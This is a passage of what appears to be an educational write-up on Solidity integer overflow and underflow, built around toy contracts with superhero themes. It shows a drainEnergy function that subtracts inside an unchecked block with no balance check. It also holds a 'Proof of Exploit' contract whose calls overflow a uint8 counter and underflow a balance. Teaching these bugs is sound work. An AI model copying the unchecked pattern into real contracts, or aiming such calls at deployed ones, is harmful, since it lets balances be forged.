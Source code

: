```solidity
     * - No check if user has enough energy.
     * - Underflow causes wraparound to a massive value.
     */
    function drainEnergy(uint256 _drainAmount) public {
        unchecked {
            energy[msg.sender] -= _drainAmount;
        }
    }
}
```

---

## Proof of Exploit

### ThorBreaker.sol

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

import {HulkRageToken} from "./Post/HulkRageToken.sol";
import {IronManSuit} from "./Post/IronManSuit.sol";

contract ThorBreaker {
    HulkRageToken public hulk;
    IronManSuit public ironMan;

    constructor(address _hulk, address _ironMan) {
        hulk = HulkRageToken(_hulk);
        ironMan = IronManSuit(_ironMan);
    }

    function breakHulk() external {
        // Step 1: Increase rage close to max (255)
        hulk.getAngry(250); // rage = 250

        // Step 2: Trigger overflow
        // 250 + 10 = 260 → wraps to 4
        hulk.getAngry(10);
    }

    function breakIronMan() external {
        // Step 1: Start with energy = 0
        // Step 2: Drain 100 → underflow to 2^256 - 100
        ironMan.drainEnergy(100);
    }
}
```
---
